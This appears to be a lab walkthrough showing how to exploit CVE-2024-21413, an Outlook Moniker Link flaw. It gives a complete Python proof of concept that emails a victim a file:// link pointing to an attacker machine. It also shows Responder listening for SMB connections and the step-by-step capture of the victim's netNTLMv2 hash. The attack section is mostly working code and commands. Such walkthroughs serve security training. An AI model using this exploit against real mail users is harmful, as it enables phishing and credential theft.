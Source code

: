 # Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

But first, let’s run through a <span style="color: inherit;">PoC example</span> (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413)).

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

The <span style="color: inherit;">PoC</span>:

- Takes an attacker & victim email. Normally, you would need to use your own <span style="color: inherit;">SMTP</span> server
- Requires the password to authenticate.
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

&nbsp;

Below it's represented an example of this attack being applied to a vulnerable target machine by a attack machine.

Let’s use Responder to create an <span style="color: inherit;">SMB</span> listener on our attacking machine. For this example, the interface will be `-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used.

```shell
root@attackbox# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

-- cut for brevity --

[+] Listening for events...
```

&nbsp;

In a vulnerable machine, open Outlook and login as the targeted account to receive the email with the Moniker Link.

<img src="../../_resources/outlook3.png" alt="outlook3.png" class="jop-noMdConv" width="591" height="544" style="display: block; margin: 0 auto;">

Returning to the attack machine, create a file with `nano exploit.py` and copy the PoC code into it. Modify the Moniker Link (line #12) in our PoC to reflect the IP address of our AttackBox. And replace the MAILSERVER placeholder on line #31 with the target IP. When done, we can run the exploit.

```shell
root@attackbox# python3 exploit.py
Enter your attacker email password: attacker
```

The Python script will print "Email delivered" when the email has been sent. If the script complains about authentication failure, ensure you have correctly replaced the values in exploit.py. Now, let's return to the vulnerable machine and check for the new email:

<img src="../../_resources/outlook4.png" alt="outlook4.png" class="jop-noMdConv" width="591" height="544" style="display: block; margin: 0 auto;">

Click on the "Click me" hyperlink and return to our "Responder" terminal session on the AttackBox:

<img src="../../_resources/responder.png" alt="responder.png" class="jop-noMdConv" width="676" height="320" style="display: block; margin: 0 auto;">

Success! The victim's netNTLMv2 hash has been captured on our AttackBox.